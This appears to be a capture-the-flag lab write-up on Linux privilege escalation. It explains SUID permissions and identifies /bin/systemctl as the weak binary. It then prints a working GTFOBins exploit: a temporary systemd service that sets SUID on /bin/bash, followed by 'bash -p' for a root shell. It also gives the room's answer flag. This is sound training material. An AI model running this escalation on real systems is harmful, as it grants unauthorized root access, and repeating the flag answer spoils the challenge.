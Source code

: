 Now that you have compromised this machine, we will escalate our privileges and become the superuser (root).  

Answer the questions below

In Linux, SUID (**set owner userId upon execution**) is a particular type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).  

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password; it will need to write to the shadowers file that you do not have access to, root does; so it has root privileges to make the right changes.

![](https://i.imgur.com/ZhaNR2p.jpg)

| Question                                                         | Answer         |
| ---------------------------------------------------------------- | -------------- |
| On the system, search for all SUID files. Which file stands out? | /bin/systemctl |

It's challenge time! We have guided you through this far. Can you exploit this system further to escalate your privileges and get the final answer?

| Question                                           | Answer                           |
| -------------------------------------------------- | -------------------------------- |
| Become root and get the last flag (/root/root.txt) | a58ff8579f0a9270368d33a9966c7fd5 |
*Before*:

![[Pasted image 20240302235306.png]]

*Escalate privileges using GTFObins*:

![[Pasted image 20240302234410.png]]


*Copy the code for SUID and paste*:

```
TF=$(mktemp).service

echo '[Service]

Type=oneshot

ExecStart=/bin/sh -c "chmod +s /bin/bash"

[Install]

WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF

/bin/systemctl enable --now $TF
```

![[Pasted image 20240302235333.png]]

*Become root*:

```
bash -p
```

![[Pasted image 20240302235445.png]]

*Find flag*:

![[Pasted image 20240302235601.png]]
